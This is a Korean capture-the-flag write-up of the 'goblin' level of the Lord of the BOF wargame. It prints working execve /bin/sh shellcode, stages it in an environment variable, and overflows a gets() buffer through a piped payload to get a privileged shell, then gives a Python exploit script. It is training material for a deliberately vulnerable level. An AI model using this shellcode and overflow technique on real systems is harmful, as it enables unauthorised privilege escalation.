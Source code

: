 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180828
modify_date: 2024-04-24
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png

---
```

[+ stdin](#){:.button.button--outline-success.button--pill}
> cobolt / hacking exposed

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

------

### 0x01. Static Analysis

16byte크기의 buffer배열을 선언하고 gets함수를 이용하여 buffer에 값을 입력받아 저장한다.

cobolt 문제와 다른점은 cobolt에서는 main함수의 argv로 사용자에게 입력값을 받았다면, 이 문제는 gets를 이용하여 사용자에게 입력값을 받는다.

따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.

gets를 이용하여 사용자가 입력한 값을 buffer배열로 복사할때 복사되는 크기가 정해져있지 않아 **BoF(Buffer OverFlow) 취약점**이 존재한다.
{:.info}

------

### 0x02. Dynamic Analysis

buffer배열의 크기가 16Byte로 Shellcode보다 크기가 작으므로 환경변수를 이용하여 풀이한다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```shell
[cobolt@localhost cobolt]$ export shellcode=`python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
[cobolt@localhost cobolt]$ export
...생략...
declare -x USER="cobolt"
declare -x USERNAME=""
declare -x shellcode="��������������������������������������������������1�Ph//shh/bin��PS�ᙰ
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/01.png" width="800px">{:.rounded.shadow}

`shellcode` 환경변수에 Shellcode를 넣는다.

<br>

```c
//env.c
main(){
    printf("0x%08x\n", getenv("shellcode") );
}
```

```shell
[cobolt@localhost cobolt]$ gcc -o env env.c
[cobolt@localhost cobolt]$ ./env
0xbfffff3b
```

`shellcode` 환경변수의 주소를 구하는 프로그램을 만들어 주소를 구해온다. (0xbfffff3b)

**[!] gdb에서 run 명령 시 user input 주는 방법 1**  
1) 입력하고나 하는 문자열을 파일로 생성  
$ python -c 'print "A"*10>tmp  
2) gdb에서 run 명령어 실행 시 파일 내용 입력   
(gdb) r<tmp   
{:.info}

**[!] gdb에서 run 명령 시 user input 주는 방법 2**   
1) 스크립트 실행 결과를 임시파일 생성 후 바로 임시파일의 내용 입력  
(gdb) r \`python -c 'print "A"*10'>tmp\`<tmp
{:.info}


-----

### 0x03. Exploit

여기서 한번 생각해야 할 점은, Cobolt문제는 프로그램의 인자값으로 값을 넘겨주기 때문에 프로그램을 실행할때 프로그램 이름 뒤에 인자로 Payload를 넘겨주면됐다.

하지만 이번 문제는 프로그램 내부에서 입력값을 받기 때문에 같은 방법으로는 Payload를 넘겨줄 수 없다.

따라서 Pipe('\|')를 사용해야 한다. (Pipe명령어는 왼쪽 **표준출력**을 오른쪽에 **표준입력**으로 넘겨주는 역할을 한다.)

표준입력으로 넘겨주어야 하기 때문에 `cat` 와 `;`명령어를 함께 사용해야 한다. (FTZ 12번 문제를 풀었다면 쉽게 이해할 수 있을 것이다.)

```shell
[cobolt@localhost cobolt]$ (python -c 'print "A"*20+"\x3b\xff\xff\xbf"';cat)|./goblin
AAAAAAAAAAAAAAAAAAAA;���
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```

> Cobolt문제와 풀이방법이 동일하므로 상세설명은 생략했다.

-----

### 0x04. 정리

Cobolt 문제에서 BoF 취약점이 존재했던 strcpy함수 외에도 gets함수도 입력값 크기 검증이 없기때문에 동일하게 BoF 취약점이 존재하는 것을 확인할 수 있는 문제였다.

그리고 프로그램 내부에서 사용자 입력값을 받을 때 어떻게 입력값을 넘겨주어야 하는지도 알게되는 문제였다.

-----

```python
#ex.py
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/cobolt/goblin"

shellcode_env_addr = 0xbffffc33

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

print payload
```

```
(python ex.py;cat)|./goblin
```

-----

